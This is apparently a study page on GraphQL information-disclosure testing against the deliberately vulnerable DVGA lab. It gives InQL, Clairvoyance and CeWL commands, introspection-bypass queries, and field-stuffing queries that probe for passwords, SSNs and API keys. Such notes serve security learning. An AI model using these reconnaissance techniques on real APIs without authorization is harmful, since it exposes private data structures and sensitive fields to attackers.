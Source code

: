 # Information Disclosure

### **The Lure of the Schema**

A primary target for attackers is the **GraphQL schema**, which reveals the structure of an application's data. It's like having a map of the database, including all fields and types, and it is often exposed via the **introspection** feature which is enabled by default. This allows hackers to understand the data model, business logic and potential attack vectors. Tools like **InQL** can automate this process, extracting schema information and outputting it in formats that are useful for security testing. However, some GraphQL implementations allow the disabling of introspection, but there are ways around that.

```bash
inql -t http://localhost:5013/graphql --generate-tsv
```

### **Bypassing Disabled Introspection**

Even if introspection is disabled, there are several techniques to gather schema information:

* **Non-Production Environments:** Development and staging environments may have less stringent security than production, and therefore introspection might be enabled. Subdomains like 'staging' or 'dev' are worth checking for GraphQL services with introspection enabled.

{% embed url="https://github.com/dolevf/Black-Hat-GraphQL/blob/master/resources/non-production-graphql-urls.txt" %}

* **The `__type` Meta-field:**&#x20;

The WAF contains rules tailored to GraphQL applications, one of which blocks attempts to introspect the GraphQL API via the `__schema` meta-field but doesn’t take into consideration other introspection meta-fields. The rule itself is defined in JSON in the following way:

This can be used as a "canary" to determine if introspection is disabled. By sending a query using `__type` and checking the response, an attacker can confirm whether the meta-field is available.

```graphql
# A __type introspection canary query
{
    __type(name:"Query") {
    name
    }
}
```

***

* **Field Suggestions:** When a client misspells a field, the server may return a suggestion, which can be abused to discover the fields in the schema. Tools like **Clairvoyance** exploit this feature by sending queries based on a dictionary of common words to reconstruct the schema. The edit-distance algorithm will determine whether suggestions are provided.

```graphql
query {
    pastes {
        owne
    }
}

-----------------
{"errors": [{"message": "Cannot query field \"owne\" on type \"Paste Object\". Did you mean \"owner\" or \"ownerId\"?", "locations": [
{"line": 24,"column": 3}
```

***

* **Field Stuffing:** Attackers insert lists of potential field names into queries to discover additional information. By observing what is returned, they can uncover sensitive fields that are not intended for public access.

{% embed url="https://www.apollographql.com/docs/graphos/schema-design/guides/naming-conventions" %}

```graphql
query {
    user {
        name
        username
        address
        birthday
        age
        password
        sin
        ssn
        apiKey
        token
        emailAddress
        status
    }
}
```

***

#### **Type Stuffing in the \_\_type Meta-field:**

Type stuffing exploits weaknesses in GraphQL's introspection disabling by targeting the `__type` meta-field to uncover schema details.

* **Technique**:
  * By supplying potential type names in the `__type(name:"TypeName")` query, attackers can identify valid types and their fields.
  * For example, querying for `PasteObject` might reveal its fields, such as `id`, `title`, `content`, `public`, and more.
* **Naming Convention**: GraphQL type names typically follow UpperCamelCase, like `PrivatePasteProperties`. Testing these systematically can uncover existing types.
*   **Example Query**:

    ```graphql
    {
      __type(name: "PasteObject") {
        name
        fields {
          name
        }
      }
    }
    ```

    **Response**:

    ```json
    {
      "data": {
        "__type": {
          "name": "PasteObject",
          "fields": [
            {"name": "id"},
            {"name": "title"},
            {"name": "content"},
            {"name": "public"},
            ...
          ]
        }
      }
    }
    ```

***

#### Automating Field Suggestion and Stuffing Using Clairvoyance

{% embed url="https://ivangoncharov.github.io/graphql-voyager" %}

{% code overflow="wrap" %}
```graphql
python3 -m clairvoyance http://localhost:5013/graphql -w ~/high-frequency-vocabulary/30k.txt -o clairvoyance-dvga-schema.json
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>The original DVGA schema</p></figcaption></figure>

Tools like the Custom Word List Generator (CeWL), which comes preinstalled in Kali, can extract keywords from the application’s frontend HTML. Try using the following one-liner to profile and extract information from the DVGA interface:

```bash
cewl http://localhost:5013/
```

This command will return a list of words that you can use in a manual field-stuffing attack. Alternatively, merge it with your list of 30,000 words and use it with Clairvoyance. You can merge two text files by using a simple Bash command:

```bash
paste -d "\n" wordlist1.txt wordlist2.txt > merged_wordlist.txt
```

***

### **Error Messages: A Goldmine for Attackers**

GraphQL’s tendency to return verbose error messages, while helpful for developers, can be exploited. These messages may reveal internal information such as:

* SQL statements used by the server to interact with the database.
* Database column names.
* User credentials.
* **Inferring Information from Stack Traces:**

{% code overflow="wrap" %}
```graphql
query {
    pastes {
        titled
    }
}

---------------------------
{"errors": [{"message": "Cannot query field \"titled\" on type \"PasteObject\".Did you mean \"title\"?","extensions": {"exception": {"stack": [" File \"/Users/dvga-user/Desktop/Damn-Vulnerable-GraphQL-Application/venv/lib/python3.x/site-packages/gevent/baseserver.py\", line 34,in _handle_and_close_when_done\nreturn handle(*args_tuple)\n",--snip--" File \"/Users/dvga-user/Desktop/Damn-Vulnerable-GraphQL-Application/venv/lib/python3.x/site-packages/flask/app.py\", line 2464,in __call__\nreturn self.wsgi_app(environ, start_response)\n",--snip--],"debug": "Traceback (most recent call last):\n File \"/Users/dvga-user/Desktop/Damn-Vulnerable-GraphQL-Application/venv/lib/python3.x/site-packages/flask_sockets.py\", line 40, in __call__\n ..."path": \"/Users/dvga-user/Desktop/Damn-Vulnerable-GraphQL-Application/core/view_override.py"}}}]}
```
{% endcode %}

***

### **Leaking Data via GET Requests**

Some GraphQL implementations allow queries to be sent using the HTTP GET method. This may expose sensitive data, as the data is included in the URL and can be stored in various locations, such as browser history, referrer headers, and proxies.

* **Enabling Debugging:** [**`http://example.com/graphql?debug=1`**](http://example.com/graphql?debug=1)

**Tools of the Trade**

Several tools are mentioned to aid in information disclosure:

* **InQL:** Extracts schema information, assists in fuzzing and brute-forcing, and can be used to automate tasks from the command line.
* **Clairvoyance:** Uses field suggestions to reconstruct the schema when introspection is disabled.
* **Burp Suite:** Used to intercept traffic, capture queries, and observe application behavior.
* **CeWL:** Extracts keywords from the frontend HTML of an application, which can then be used in field-stuffing attacks.
